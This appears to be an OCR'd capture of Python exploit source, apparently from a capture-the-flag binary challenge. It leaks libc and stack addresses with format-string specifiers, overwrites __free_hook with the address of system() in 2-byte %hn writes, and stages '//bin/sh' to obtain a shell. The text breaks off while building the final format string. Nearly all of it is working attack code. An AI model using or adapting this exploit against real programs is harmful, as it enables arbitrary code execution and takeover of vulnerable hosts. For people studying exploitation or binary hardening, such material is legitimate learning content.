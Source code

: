 ```py
leaklib = io.recvline().decode().split(' ')[0]
libc.address = int(leaklib, 0) - 0x021bf7
io.success("Libc address: " + hex(libc.address))



Store('leakstk', '%22$p aaaaaaaa')
Return('leakstk')

leakstk = io.recvline().decode().split(' ')[0]
stackaddr = int(leakstk, 0)
io.success("Stack address: " + hex(stackaddr))

Store("writer", "paaaaaaaaaaaaaad")



freeHook = libc.sym['__free_hook']
io.success("free hook at: " + hex(freeHook))
freeHook0 = libc.sym['__free_hook'] % 0x10000
freeHook2 = (libc.sym['__free_hook'] // 0x10000) % 0x10000
freeHook4 = (libc.sym['__free_hook'] // 0x100000000) % 0x10000
freeHook6 = (libc.sym['__free_hook'] // 0x1000000000000) % 0x10000

buildStackAddr(0, freeHook0)
buildStackAddr(2, freeHook2)
buildStackAddr(4, freeHook4)
buildStackAddr(6, freeHook6)

buildStackAddr(8, freeHook0 + 2)
buildStackAddr(10, freeHook2)
buildStackAddr(12, freeHook4)
buildStackAddr(14, freeHook6)

buildStackAddr(16, freeHook0 + 4)
buildStackAddr(18, freeHook2)
buildStackAddr(20, freeHook4)
buildStackAddr(22, freeHook6)

buildStackAddr(24, freeHook0 + 6)
buildStackAddr(26, freeHook2)
buildStackAddr(28, freeHook4)
buildStackAddr(30, freeHook6)



system = libc.sym["system"]
io.success("system at: " + hex(system))

system0 = system % 0x10000
system2 = (system // 0x10000) % 0x10000
system4 = (system // 0x100000000) % 0x10000
system6 = (system // 0x1000000000000) % 0x10000

written = 0
fmtstr = ''

Store('shell', '//bin/sh\x00')

if(system0 > 0):
    fmtstr += '%' + str((system0 - written) % 0x10000) + 'hhx'
    written += (system0 - written) % 0x10000
    fmtstr += '%45$hn'
```